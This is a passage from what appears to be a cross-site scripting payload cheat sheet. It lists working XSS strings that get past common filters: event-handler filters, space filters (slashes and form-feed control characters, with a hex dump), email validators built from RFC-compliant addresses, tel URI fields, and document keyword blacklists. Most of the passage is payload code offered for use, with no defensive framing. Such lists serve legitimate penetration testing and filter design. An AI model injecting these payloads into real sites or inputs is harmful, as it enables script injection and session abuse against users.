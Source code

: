 - Bypass onxxx= filter with a '/'

    ```js
    <img src='1' onerror/=alert(0) />
    ```

## Bypass Space Filter

- Bypass space filter with "/"

    ```javascript
    <img/src='1'/onerror=alert(0)>
    ```

- Bypass space filter with `0x0c/^L` or `0x0d/^M` or `0x0a/^J` or `0x09/^I`

  ```html
  <svgonload=alert(1)>
  ```

```ps1
$ echo "<svg^Lonload^L=^Lalert(1)^L>" | xxd
00000000: 3c73 7667 0c6f 6e6c 6f61 640c 3d0c 616c  <svg.onload.=.al
00000010: 6572 7428 3129 0c3e 0a                   ert(1).>.
```

## Bypass Email Filter

- [RFC0822 compliant](http://sphinx.mythic-beasts.com/~pdw/cgi-bin/emailvalidate)

  ```javascript
  "><svg/onload=confirm(1)>"@x.y
  ```

- [RFC5322 compliant](https://0dave.ch/posts/rfc5322-fun/)

  ```javascript
  xss@example.com(<img src='x' onerror='alert(document.location)'>)
  ```

## Bypass Tel URI Filter

At least 2 RFC mention the `;phone-context=` descriptor:

- [RFC3966 - The tel URI for Telephone Numbers](https://www.ietf.org/rfc/rfc3966.txt)
- [RFC2806 - URLs for Telephone Calls](https://www.ietf.org/rfc/rfc2806.txt)

```javascript
+330011223344;phone-context=<script>alert(0)</script>
```

## Bypass Document Blacklist

```javascript
<div id = "x"></div><script>alert(x.parentNode.parentNode.parentNode.location)</script>
window["doc"+"ument"]
```

